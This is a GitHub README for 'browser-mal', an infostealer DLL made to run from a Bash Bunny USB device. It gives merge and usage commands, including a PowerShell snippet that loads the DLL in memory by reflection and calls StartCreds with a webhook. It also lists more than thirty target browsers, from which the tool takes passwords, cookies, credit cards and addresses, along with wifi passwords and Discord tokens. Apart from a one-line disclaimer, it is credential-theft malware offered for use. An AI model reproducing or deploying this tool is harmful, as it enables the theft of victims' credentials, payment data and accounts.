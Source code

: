 # browser-mal
This was made to be used with bash bunny for experimenting with payloads.
Please do not use for illegal activities.

## Merge Dll's

```
ILMerge.exe /out:browser.mal.dll BrowserMal.dll BouncyCastle.Crypto.dll Newtonsoft.Json.dll 
```

## Usage
C#:
```csharp
BrowserMal.Class1.StartCreds(<webhook>, extractWifi: true);
```

Powershell:
```powershell
$bytes = [System.IO.File]::ReadAllBytes("PATH TO DLL")
$assembly = [System.Reflection.Assembly]::Load($bytes)

$entryPointMethod = $assembly.GetTypes().Where({ $_.Name -eq 'Class1' }, 'First').GetMethod('StartCreds', [Reflection.BindingFlags] 'Static, Public, NonPublic')

$entryPointMethod.Invoke($null, @('WEBHOOK', $true))
```

## Functionality
- Extracts passwords, cookies, credit cards and addresses from gecko and chromium based browsers.
- Extracts saved wifi passwords.
- Extracts discord tokens.

## Browsers supported

- Chrome
- Opera
- Yandex
- 360 Browser
- Comodo Dragon
- CoolNovo
- SRWare Iron
- Torch Browser
- Brave Browser
- Iridium Browser
- 7Star
- Amigo
- CentBrowser
- Chedot
- CocCoc
- Elements Browser
- Epic Privacy Browser
- Kometa
- Orbitum
- Sputnik
- uCozMedia
- Vivaldi
- Sleipnir 6
- Citrio
- Coowon
- Liebao Browser
- QIP Surf
- Edge Chromium
- Firefox Developer
- SeaMonkey
- Firefox Nightly
- Waterfox
- Mozilla Thunderbird
- Pale Moon
